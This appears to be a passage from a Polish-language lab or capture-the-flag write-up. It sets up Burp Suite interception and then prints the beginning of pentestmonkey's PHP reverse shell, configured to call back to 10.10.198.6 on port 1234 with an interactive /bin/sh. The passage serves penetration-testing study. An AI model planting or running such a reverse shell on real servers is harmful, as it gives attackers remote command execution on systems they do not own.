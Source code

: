 
Uruchamiamy zatem BurpSuite, uruchamiamy FoxyProxy w przeglądarce oraz w Burpie włączamy *intercept*. Utworzymy odrazu odpowiedni plik z reverse shellem - *rev_shell.php*. Zawartość pliku znajduje się poniżej


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.198.6';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```